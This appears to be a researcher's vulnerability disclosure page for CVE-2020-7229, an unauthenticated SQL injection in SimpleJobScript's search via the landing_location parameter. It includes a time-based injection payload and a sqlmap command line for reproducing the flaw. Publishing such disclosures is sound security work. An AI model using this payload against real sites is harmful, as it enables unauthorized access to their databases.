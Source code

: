 ```yaml
---
cve: "CVE-2020-7229"
title: "Unauthenticated SQL injection in SimpleJobScript"
images: [/images/cve-mitre.png]
date: 2020-01-19
tags:
- cve
- sql injection
---
```

An issue was discovered in Simplejobscript.com SJS before 1.65. There is unauthenticated SQL injection via the search engine. The parameter is `landing_location`. The function is `countSearchedJobs()`. The file is `_lib/class.Job.php`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7229
- public announcement: https://github.com/niteosoft/simplejobscript/issues/7

<hr />

**Description:**  
An issue was discovered in Simplejobscript.com SJS before 1.65. There is unauthenticated SQL injection via the search engine. The parameter is `landing_location`. The function is `countSearchedJobs()`. The file is `_lib/class.Job.php`.

**Details:**  
File: `/_lib/class.Job.php`  
Function: `countSearchedJobs()`  
Parameter: `landing_location`  

**Payload:**  
```
POST /searched
landing_title=aaa&landing_location=77+or+(select+(sleep(2)))
```

**Steps to Reproduce:**  
```
$ sqlmap --threads=10 --batch --dbms=mysql -u "http://local.simplejobscript.net/searched" --data="landing_title=aaa&landing_location=77" -p landing_location --banner
```

**PoC:**
![cve-2020-7229 SimpleJobScript sqli](/images/cve-2020-7229.png)



